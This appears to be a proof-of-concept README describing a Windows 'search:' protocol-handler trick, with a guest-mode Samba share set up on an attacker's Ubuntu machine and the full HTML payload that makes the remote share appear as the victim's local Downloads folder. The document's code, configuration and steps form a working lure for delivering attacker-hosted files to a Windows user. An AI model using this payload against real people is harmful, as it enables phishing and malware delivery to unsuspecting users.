 # PoC_Linux
## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Attacker's Machine
- OS - Ubuntu noble 24.04 x86_64
- Kernel - Linux 6.8.0-35-generic

## Setting Up

#### Attacker's Machine
- A SMB share needs to be setup on the Attacker's machine.
- The shared folder should be accessible by guests.
- SMB version needs to be forces between 2 and 3.
```Text
client min protocol = SMB2
client max protocol = SMB3
```
- The shared folder needs to be set to guest mode.
```Text
[Share]
path = /home/share
public = yes
guest only = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
```
- For testing purposes, there is a text file ( Hacked.txt )  in the folder.![](Attachments/Pasted%20image%2020240722004846.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=hacked&amp;crumb=location:\\x-VBOX\Share&amp;displayname=Downloads"
    <p><a href="search:query=hacked&amp;crumb=location:\\x-VBOX\Share\&amp;displayname=Downloads">Untitled</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240722005020.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240722005156.png)
	1. Windows has searched for "hacked" .
	2. It appears as if the file is in "Downloads" .


## Notes
- Http servers didn't work for the exploit. Cannot access the files through windows explorer.
- Default linux Samba shares are not detected by windows as they use SMB1. SMB V2 & V3 needs to be forced in settings.